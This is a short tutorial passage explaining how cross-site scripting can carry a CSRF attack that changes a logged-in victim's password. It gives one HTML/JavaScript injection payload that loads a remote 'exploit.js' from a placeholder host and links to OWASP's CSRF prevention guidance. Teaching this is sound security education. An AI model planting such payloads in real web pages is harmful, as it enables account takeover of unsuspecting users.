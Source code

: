 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.


A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```


https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html